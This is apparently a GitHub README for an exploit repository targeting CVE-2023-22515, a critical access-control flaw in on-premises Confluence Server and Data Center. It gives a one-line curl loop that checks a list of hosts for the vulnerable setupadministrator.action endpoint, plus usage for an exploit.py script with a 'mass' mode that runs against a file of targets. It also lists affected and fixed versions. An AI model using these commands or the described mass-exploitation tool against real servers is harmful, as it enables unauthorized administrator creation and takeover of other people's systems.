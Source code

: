 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/CVE-2023-22515">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/CVE-2023-22515">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>


# CVE-2023-22515
CVE-2023-22515, a critical vulnerability affecting on-premises instances of Confluence Server and Confluence Data Center, a Broken Access Control vulnerability. Attlassian has provided a CVSS base score of 10.0



## One line poc
```
cat file.txt| while read host do;do curl -skL "http://$host/setup/setupadministrator.action" | grep -i "<title>Setup System Administrator" && echo $host "is VULN";done
```


## Prerequisites
```
sudo pip install -r requirements.txt
```


## Usage 🚀

1. Normal Mode
```
sudo python3 exploit.py normal [TARGET_URL]
```

2. Mass Mode
```
sudo python3 exploit.py mass [FILE_NAME]
```

## Example Output
<a href=""><img src="/img/poc.png" alt="" width="300px;"></a>


## Affected Versions
```
8.0.0
8.0.1
8.0.2
8.0.3
8.0.4
8.1.0
8.1.1
8.1.3
8.1.4
8.2.0
8.2.1
8.2.2
8.2.3
8.3.0
8.3.1
8.3.2
8.4.0
8.4.1
8.4.2
8.5.0
8.5.1
```


## Fixed Versions
```
8.3.3 or later
8.4.3 or later
8.5.2 (Long Term Support release) or later
```


## refrences
* [atlassian](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html)
* [nist](https://nvd.nist.gov/vuln/detail/CVE-2023-22515)